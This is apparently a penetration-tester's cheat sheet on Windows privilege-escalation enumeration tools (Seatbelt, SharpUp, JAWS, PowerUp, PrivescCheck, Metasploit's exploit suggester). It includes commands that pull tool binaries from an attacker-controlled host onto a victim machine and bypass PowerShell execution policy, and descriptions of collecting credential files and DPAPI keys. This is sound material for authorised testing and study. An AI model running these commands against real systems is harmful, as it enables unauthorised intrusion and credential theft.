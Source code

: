 # Automated scripts

{% embed url="https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md" %}

## `SeatBelt`

{% embed url="https://github.com/GhostPack/Seatbelt" %}

> Seatbelt provides an **insight** into the following sections: _Antivirus, AppLocker Settings, ARP table and Adapter information, Classic and advanced audit policy settings, Autorun executables/scripts/programs, Browser(Chrome/Edge/Brave/Opera) Bookmarks, Browser History, AWS/Google/Azure/Bluemix Cloud credential files, All configured Office 365 endpoints which are synchronized by OneDrive, Credential Guard configuration, DNS cache entries, Dot Net versions, DPAPI master keys, Current environment %PATH$ folders, Current environment variables, Explicit Logon events (Event ID 4648) from the security event log, Explorer most recently used files, Recent Explorer “run” commands, FileZilla configuration files, Installed hotfixes, Installed, “Interesting” processes like any defensive products and admin tools, Internet settings including proxy configs and zones configuration, KeePass configuration files, Local Group Policy settings, Non-empty local groups, Local users, whether they’re active/disabled, Logon events (Event ID 4624), Windows logon sessions, Locates Living Off The Land Binaries and Scripts (LOLBAS) on the system and other information._

```bash
# import to windows machine
impacket-smbserver share $(pwd) -smb2support

# on windows
copy \\$attacker_ip\share\Seatbelt.exe
Seatbelt.exe -group=all
```

## `SharpUp`

{% embed url="https://github.com/GhostPack/SharpUp" %}

> It detects the following: _Modifiable Services, Modifiable Binaries, AlwaysInstallElevated Registry Keys, Modifiable Folders in %PATH%, Modifiable Registry Autoruns, Special User Privileges if any and McAfee Sitelist.xml files_.

```bash
# attacker
python -m SimpleHTTPServer 80

# victim windows
powershell.exe iwr -uri $attacker_ip/SharpUp.exe -o C:\Temp\SharpUp.exe
SharpUp.
```

## `JAWS`

{% embed url="https://github.com/411Hall/JAWS" %}

> Surfing through one C# binary to another, we are finally attacked by JAWS. It is a PowerShell script for a change. As it was developed on PowerShell 2.0 it is possible to enumerate Windows 7 as well. It can work and detect the following: _Network Information (interfaces, arp, netstat), Firewall Status and Rules, Running Processes, Files and Folders with Full Control or Modify Access, Mapped Drives, Potentially Interesting Files, Unquoted Service Paths, Recent Documents, System Install Files, AlwaysInstallElevated Registry Key Check, Stored Credentials, Installed Applications, Potentially Vulnerable Services, MUICache Files, Scheduled Tasks_.

```powershell
# bypass execution policy
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1
```

## `PowerUP`

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1" %}

> PowerUp is another PowerShell script that works on enumerating methods to elevate privileges on Windows System. It has an Invoke-AllChecks option that will represent any identified vulnerabilities with abuse functions as well. It is possible to export the result of the scan using -HTMLREPORT flag. PowerUp detects the following Privileges: _Token-Based Abuse, Services Enumeration and Abuse, DLL Hijacking, Registry Checks, etc_. In order to use the PowerUp, we need to transfer the script to the Target Machine using any method of your choice. Then bypass the Execution Policy in order to execute the script from PowerShell. Then use the Invoke-AllChecks in order to execute the PowerUp on the target machine. We can see it has already provided us with some Unquoted Path Files that can be used to elevate privilege.

```
powershell
powershell -ep bypass
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

## `PowerLess`

{% embed url="https://github.com/gladiatx0r/Powerless" %}

> The problem with many legacy Windows machines is that the PowerShell is not accessible and the running of executable files is restricted. But we need to enumerate the possibilities for it as well to elevate privileges. Powerless comes to the rescue here. All you had to do is transfer the batch file to the target machine thought the method of your choice and then execute it. It will work and will provide data about the methods and directories that can be used to elevate privileges on the target machine.

## `PrivEscCheck`

{% embed url="https://github.com/itm4n/PrivescCheck" %}

> Quick enumeration. Suitable with AppLocker or any other Application whitelisting. It generates a report. To use it, we transfer the script file to the target machine with the method of your choosing. Then bypass the execution policy and run it.

```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

## MetaSploit

### Windows Exploit Suggester

```bash
use post/multi/recon/local_exploit_suggester
set session 1
show options
# change options
exploit
```

